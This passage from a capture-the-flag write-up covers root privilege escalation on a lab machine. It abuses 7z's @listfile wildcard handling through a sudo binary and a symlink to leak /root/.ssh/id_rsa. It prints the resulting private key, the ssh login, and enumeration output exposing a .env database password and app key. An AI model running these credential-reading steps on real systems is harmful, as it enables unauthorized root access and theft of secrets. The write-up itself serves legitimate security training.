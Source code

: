 ```
Then, when 7z is execute, it will treat root.txt as a file containing the list of files it should compress (thats what the existence of @root.txt indicates) and when it 7z read root.txt it will read /file/you/want/to/read and as the content of this file isn't a list of files, it will throw and error showing the content.
```
		- we execute this to get root ssh key (we see id_rsa and id_rsa_root at home folder)
- goto /var/www/html and create file @id_rsa
	- as we are running as root it should pass on the details to us
		- we create @id_rsa file and create link to id_rsa at root
		- we pass the usage_management command
			```bash
cd /var/www/html
touch @id_rsa
ln -s /root/.ssh/id_rsa id_rsa
sudo /usr/bin/usage_management
>1
```
			- Output (sanitized):
				```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAJAfwyJCH8MiQgAAAAtzc2gtZWQyNTUxOQAAACC20mOr6LAHUMxon+edz07Q7B9rH01mXhQyxpqjIa6g3QAAAEC63P+5DvKwuQtE4YOD4IEeqfSPszxqIL1Wx1IT31xsmrbSY6vosAdQzGif553PTtDsH2sfTWZeFDLGmqMhrqDdAAAACnJvb3RAdXNhZ2UBAgM=
-----END OPENSSH PRIVATE KEY-----
```
	- we store ssh key in our local machine **and change permissions to 600**
		```bash
chmod 0600 id_rsa
ssh -i id_rsa root@usage.htb
```
		- we gain root shell

------------
# Rabbit Holes
## Priv Escalation Enumeration
- Commands that led to nowhere:
	```bash
find / -type f -perm -4000 2>/dev/null
ss -tlpn
cat /etc/apache2/..
cat /var/www/hmtl/... # although the location /var/www/html was important it's contents didn't provide priv escalation value. Also don't think I could access most of the files here as normal user.
```


- Linpeas enumeration :
	- pwd outputs:
		```bash
-rwxrwxr-x 1 xander xander 1176 Aug 23  2023 /home/xander/project_admin/.env                           
APP_NAME=Laravel
APP_ENV=local
APP_KEY=base64:oMsNNEsunFZxVvNVc0pfq7Gbn8hWGURpQLAgH6/dktA=
APP_DEBUG=false
APP_URL=http://admin.usage.htb
LOG_CHANNEL=stack
LOG_DEPRECATIONS_CHANNEL=null
LOG_LEVEL=debug
DB_CONNECTION=mysql
DB_HOST=127.0.0.1
DB_PORT=3306
DB_DATABASE=usage_blog
DB_USERNAME=staff
DB_PASSWORD=s3cr3t_c0d3d_1uth
BROADCAST_DRIVER=log